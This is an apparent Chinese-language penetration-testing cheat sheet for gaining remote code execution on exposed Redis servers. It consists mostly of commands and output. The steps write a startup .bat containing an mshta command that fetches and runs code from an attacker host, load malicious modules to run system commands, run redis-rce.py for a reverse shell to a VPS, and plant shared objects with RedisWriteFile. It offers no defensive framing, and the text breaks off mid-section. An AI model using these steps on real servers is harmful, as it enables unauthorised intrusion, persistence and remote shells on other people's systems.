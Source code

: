 备份redis
redis-dump-go
备份:
./redis-dump-go -host 192.168.2.233 -output commands > redis.dump


恢复:
redis-cli -h 192.168.2.233 < redis.dump
攻击步骤
准备好dll，使用RedisWriteFile写入
备份Redis: ./redis-dump-go -host 192.168.2.233 -output commands > redis.dump
执行bgsave,获取Shell
恢复Redis: redis-cli -h 192.168.2.233 < redis.dump
### 写启动项
```
root@kali:~# telnet 10.107.11.76 6379
Trying 10.107.11.76...
Connected to 10.107.11.76.
Escape character is '^]'.
config set dir "C://Users//Administrator//AppData//Roaming//Microsoft//Windows//Start Menu//Programs//startup"
+OK
config set dbfilename 1.bat
+OK
config set dbfilename 1.bat
+OK
set x "\r\n\r\nmshta http://10.107.10.77:8080/123\r\n\r\n"
+OK
save
```
## 加载模块执行命令(win+linux)
模块文件需要在redis机器上,(rce目录下已经下载好了)
+ windows
https://github.com/0671/RedisModules-ExecuteCommand-for-Windows
```
127.0.0.1:6379> module load exp.dll
127.0.0.1:6379> exp.e whoami
127.0.0.1:6379> exp.e net user
```
## linux
### 一键反弹shell(基于主从)
+ https://github.com/Ridter/redis-rce
发送poc
```
python .\redis-rce.py -r 目标 -L vps -f .\exp_lin.so -v
```
> i:正向连接
> r:反弹	需要在公网使用nc监听端口

### module load
+ 无损写文件
https://github.com/r35tart/RedisWriteFile
https://github.com/puckiestyle/RedisModules-ExecuteCommand
```
python .\RedisWriteFile.py --rhost=192.168.0.10 --lhost=192.168.0.8  --rpath=/data --rfile=so.so --lfile=exp_lin.so -v
```
+ 执行命令
```
//连接redis
redis-cli.exe -h 192.168.10.10
//读取模块
```